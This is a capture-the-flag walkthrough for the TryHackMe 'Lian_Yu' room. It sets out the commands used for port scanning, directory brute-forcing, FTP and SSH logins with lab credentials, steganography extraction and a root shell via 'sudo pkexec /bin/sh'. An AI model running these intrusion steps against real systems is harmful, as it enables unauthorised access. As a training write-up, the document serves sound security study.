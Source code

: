 # Lian\_Yu

**Room Link:** [https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island/2100 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>



**Link:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



## FTP

```
ftp $VICTIM
Username: vigilante
Password: !#th3h00d
mget *
```



**Kali**

```
exiftool Leave_me_alone.png 
sudo apt install ncurses-hexedit
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Change the first hex values to **89 50 4E 47 0D 0A** to make it .PNG then save the file

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool Leave_me_alone.png
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide info aa.jpg
Password: password
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf aa.jpg
Password: password
unzip ss.zip 
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh slade@$VICTIM
Password: M3tahuman
```



## Privilege Escalation

**Victim**

```
sudo -l
```



<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo pkexec /bin/sh
```

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>























